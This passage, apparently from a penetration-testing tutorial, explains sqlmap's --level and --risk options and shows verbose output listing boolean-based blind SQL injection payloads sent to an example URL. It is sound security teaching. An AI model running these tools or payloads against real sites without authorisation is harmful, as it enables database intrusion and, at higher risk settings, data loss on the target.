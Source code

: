 For such demands, the options `--level` and `--risk` should be used:

- The option `--level` ( `1-5`, default `1`) extends both vectors and boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).

- The option `--risk` ( `1-3`, default `1`) extends the used vector set based on their risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).


The best way to check for differences between used boundaries and payloads for different values of `--level` and `--risk`, is the usage of `-v` option to set the verbosity level. In verbosity 3 or higher (e.g. `-v 3`), messages containing the used `[PAYLOAD]` will be displayed, as follows:

```shell
sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```

On the other hand, payloads used with the default `--level` value have a considerably smaller set of boundaries:

```shell
sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'

```

As for vectors, we can compare used payloads as follows:

```shell
sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...

```
